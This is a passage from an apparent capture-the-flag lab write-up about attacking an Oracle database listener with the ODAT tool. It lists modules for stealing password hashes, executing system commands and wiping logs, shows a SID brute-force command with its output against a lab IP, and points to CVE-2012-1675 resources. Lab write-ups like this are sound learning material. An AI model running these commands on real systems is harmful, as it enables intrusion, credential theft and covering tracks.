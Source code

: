```console
    tnscmd            to communicate with the TNS listener
    tnspoison         to exploit TNS poisoning attack (SID required)
    sidguesser        to know valid SIDs
    snguesser         to know valid Service Name(s)
    passwordguesser   to know valid credentials
    utlhttp           to send HTTP requests or to scan ports
    httpuritype       to send HTTP requests or to scan ports
    utltcp            to scan ports
    ctxsys            to read files
    externaltable     to read files or to execute system commands/scripts
    dbmsxslprocessor  to upload files
    dbmsadvisor       to upload files
    utlfile           to download/upload/delete files
    dbmsscheduler     to execute system commands without a standard output
    java              to execute system commands
    passwordstealer   to get hashed Oracle passwords
    oradbg            to execute a bin or script
    dbmslob           to download files
    stealremotepwds   to steal hashed passwords thanks an authentication sniffing (CVE-2012-3137)
    userlikepwd       to try each Oracle username stored in the DB like the corresponding pwd
    smb               to capture the SMB authentication
    privesc           to gain elevated access
    cve               to exploit a CVE
    search            to search in databases, tables and columns
    unwrapper         to unwrap PL/SQL source code (no for 9i version)
    clean             clean traces and logs
```

## Foothold

### Oracle Database Attack

Firstly, get the valid sids: `XE`

```console
└─╼$ ./odat-libc2.17-x86_64 sidguesser -s 10.129.95.188 -p 1521

[1] (10.129.95.188:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.129.95.188:1521 server
[+] 'XE' is a valid SID. Continue...                            ######################################## | ETA:  00:00:06
100% |###################################################################################################| Time: 00:10:51
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.129.95.188:1521)
100% |###################################################################################################| Time: 00:00:21
```

Next, test potential vulnerability: CVE-2012-1675

> https://www.oracle.com/security-alerts/alert-cve-2012-1675.html
> https://vulners.com/n0where/N0WHERE:172575
> https://github.com/bongbongco/CVE-2012-1675
